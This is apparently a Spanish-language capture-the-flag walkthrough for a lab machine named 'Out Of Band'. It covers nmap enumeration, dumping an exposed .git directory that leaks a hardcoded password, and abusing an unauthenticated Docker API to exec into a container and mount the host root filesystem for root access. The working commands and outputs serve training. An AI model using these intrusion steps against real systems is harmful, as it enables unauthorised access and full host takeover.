

## Table of contents

## Enumeración

La máquina Out Of Band tiene la ip **10.0.2.36**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.36

Nmap scan report for 10.0.2.36
Host is up (0.00072s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
2222/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u5 (protocol 2.0)
| ssh-hostkey: 
|   3072 d8:c3:18:93:0f:41:58:9a:cc:89:99:70:21:4b:b7:5c (RSA)
|   256 bb:a1:ce:72:d7:db:04:e8:d8:82:65:68:bf:bf:aa:11 (ECDSA)
|_  256 d9:b6:6a:8d:dd:41:cf:63:ef:20:21:05:e2:35:df:12 (ED25519)
2375/tcp open  docker  Docker 26.1.5+dfsg1
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sat, 23 May 2026 07:08:16 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sat, 23 May 2026 07:08:00 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.45
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/26.1.5+dfsg1 (linux)
|     Date: Sat, 23 May 2026 07:08:00 GMT
|     Content-Length: 0
|   docker: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
| docker-version: 
|   GitCommit: 411e817
|   Platform: 
|     Name: 
|   Version: 26.1.5+dfsg1
|   GoVersion: go1.24.4
|   ApiVersion: 1.45
|   BuildTime: 2026-01-02T14:41:00.000000000+00:00
|   Arch: amd64
|   Components: 
|     
|       Details: 
|         GitCommit: 411e817
|         Arch: amd64
|         Experimental: false
|         GoVersion: go1.24.4
|         ApiVersion: 1.45
|         BuildTime: 2026-01-02T14:41:00.000000000+00:00
|         KernelVersion: 6.12.63+deb13-amd64
|         Os: linux
|         MinAPIVersion: 1.24
|       Version: 26.1.5+dfsg1
|       Name: Engine
|     
|       Details: 
|         GitCommit: 1.7.24~ds1-6+deb13u1
|       Version: 1.7.24~ds1
|       Name: containerd
|     
|       Details: 
|         GitCommit: 1.1.15+ds1-2+b4
|       Version: 1.1.15+ds1
|       Name: runc
|     
|       Details: 
|         GitCommit: 
|       Version: 0.19.0
|       Name: docker-init
|   KernelVersion: 6.12.63+deb13-amd64
|   MinAPIVersion: 1.24
|_  Os: linux
8000/tcp open  http    Apache httpd 2.4.65 ((Debian))
| http-git: 
|   10.0.2.36:8000/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: feat: updated login frontend 
|_http-server-header: Apache/2.4.65 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:75:2A:E6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 8000 (Web)

**Nmap** nos ha reportado la existencia de un directorio **.git** por lo que vamos a emplear la herramienta **dumper** de **GitTools** para bajarlo y revisarlo.

- https://github.com/internetwache/GitTools

```bash
./gitdumper.sh http://10.0.2.36:8000/.git/ .
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/87/3530fea207a8caeff775a0bad479f711d505f3
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/2b/3d4eeb53407619e754f1820678745e461db88b
[+] Downloaded: objects/de/b0ff42cbd190b8296f00921b002c537c34667e
[+] Downloaded: objects/85/ca0913082986fe8528c0192466494207c94824
[+] Downloaded: objects/90/f323468cf033c73cd95441db043f994177e2f4
[+] Downloaded: objects/e2/9bbc745b05e8eee1439e60196bd57f2a3f17bb
[+] Downloaded: objects/86/8e11fe803ddb38885e485c9a4cca6c48748204
[+] Downloaded: objects/e3/1ff6b620f85908a68d5c7321ac630d470edf67
[+] Downloaded: objects/fd/c96a7467865126c78e1d9a7784e8bfd2932a95
[+] Downloaded: objects/bf/0a7e6d2ae464359a1b3d39feb8ab0f07926e89
[+] Downloaded: objects/35/d1f3ea738b96d49315e7582a7fe2e9eda58c6b
[+] Downloaded: objects/9c/10c2de1fe42b62287b85f1b8dafea1b63df241
```

Ya tenemos descargado todo el contenido en un directorio **.git**, vamos a emplear **git** para ver los commits.

```bash
git show

commit 873530fea207a8caeff775a0bad479f711d505f3 (HEAD -> master)
Author: DevOps Bot <ci-cd@internal.corp>
Date:   Sun Jan 18 19:12:59 2026 +0100

    feat: updated login frontend

diff --git a/index.php b/index.php
index 35d1f3e..bf0a7e6 100644
--- a/index.php
+++ b/index.php
@@ -1 +1,18 @@
-<?php echo 'Maintenance Mode'; ?>
+<?php
+// Legacy Auth System
+// User: dherediat
+// TODO: Remove hardcoded creds in prod
+// $db_pass = "DevAdmin2024!"; 
+
+echo "<center><h1>Legacy Intranet</h1></center>";
+echo "";
+
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+    echo "<br><b>Error:</b> Database connection timeout.";
+}
+?>
+<form method="POST">
+    Login: <input type="text" name="user"><br>
+    Pass: <input type="password" name="pass"><br>
+    <input type="submit" value="Enter">
+</form>
```

Vemos unas credenciales que parecen ser referentes a la web, así que accedemos a ella y las probamos.



Nos arroja un error de conexión con la base de datos.

### Puerto 2375 (Docker API)

La máquina tiene expuesta la **api de docker**, eso entraña un riesgo muy elevado.

Vamos a conectarnos a ella y listar los contenedores activos.

```bash
docker -H tcp://10.0.2.36:2375 ps

CONTAINER ID   IMAGE                  COMMAND                  CREATED        STATUS          PORTS                                                                              NAMES
56fabc0fb990   ctf-target-v2:latest   "/bin/sh -c 'service…"   4 months ago   Up 48 minutes   0.0.0.0:2222->22/tcp, [::]:2222->22/tcp, 0.0.0.0:8000->80/tcp, [::]:8000->80/tcp   ctf-box
```

## Explotación
### User flag

Tenemos el **id** del contenedor, vamos a acceder a él.

```bash
docker -H tcp://10.0.2.36:2375 exec -it 56fabc0fb990 bash

root@56fabc0fb990:/# whoami
root
root@56fabc0fb990:/# ls -la /home/dherediat/
total 36
drwxr-xr-x 1 dherediat dherediat 4096 Jan 19 12:37 .
drwxr-xr-x 1 root      root      4096 Jan 18 18:13 ..
lrwxrwxrwx 1 dherediat dherediat    9 Jan 19 12:37 .bash_history -> /dev/null
-rw-r--r-- 1 dherediat dherediat  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 dherediat dherediat 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 dherediat dherediat  807 Mar 27  2022 .profile
drwxr-xr-x 1 root      root      4096 Jan 18 18:13 .ssh
-rw------- 1 dherediat dherediat   31 Jan 19 11:54 user.txt
```

Ya tenemos la **user flag**, somos **root** en el contenedor que parece ser el servicio **ssh** del puerto **2222**.

### Root flag

Podemos ejecutar un contenedor y montar la raíz del servidor (**/**) en el directorio **/hostfs** del contenedor y lanzarnos una bash para ganar acceso a los archivos del servidor como el usuario **root**.

```bash
docker -H tcp://10.0.2.36:2375 run -it  -v /:/hostfs ubuntu /bin/bash

root@88fecb1ea77b:/# ls -la /hostfs/root/
total 36
drwx------  5 root root 4096 Jan 19 11:53 .
drwxr-xr-x 18 root root 4096 Jan 18 12:40 ..
-rw-------  1 root root  164 Feb 18 15:21 .bash_history
-rw-r--r--  1 root root  607 Jan  2 12:35 .bashrc
drwx------  3 root root 4096 Jan 18 18:13 .docker
drwxrwxr-x  3 root root 4096 Jan 18 18:12 .local
-rw-r--r--  1 root root  132 Jan  2 12:35 .profile
drwx------  2 root root 4096 Jan 19 11:34 .ssh
-rw-------  1 root root   31 Jan 19 11:54 final_flag.tar.gz
```

Ya tenemos la **root flag**, aunque tenga las extensiones **.tar.gz** se trata de un archivo de texto, aplicando un **cat** se puede leer su contenido.